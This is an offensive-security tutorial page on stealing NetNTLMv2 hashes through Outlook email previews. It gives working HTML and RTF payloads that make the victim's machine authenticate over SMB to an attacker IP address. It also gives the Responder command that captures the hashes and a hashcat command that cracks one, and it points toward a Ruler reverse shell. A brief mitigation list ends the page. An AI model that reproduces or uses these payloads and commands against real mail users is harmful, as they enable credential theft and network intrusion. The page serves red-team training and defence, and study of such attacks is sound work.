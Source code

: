 # NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

{% hint style="warning" %}
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
{% endhint %}

## Weaponization

Let's create a new HTML file with the below:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode %}

An RTF file also works:

{% code title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-09-57.png)

Select the malicious messge.html and select `Insert as Text`:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-07.png)

You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake):

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-11-47.png)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](../../.gitbook/assets/peek-2018-12-28-15-05.gif)

Once the hash is stolen, we can attempt cracking it:

{% code title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](../../.gitbook/assets/screenshot-from-2018-12-28-15-16-46.png)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% content-ref url="password-spraying-outlook-web-access-remote-shell.md" %}
[password-spraying-outlook-web-access-remote-shell.md](password-spraying-outlook-web-access-remote-shell.md)
{% endcontent-ref %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}

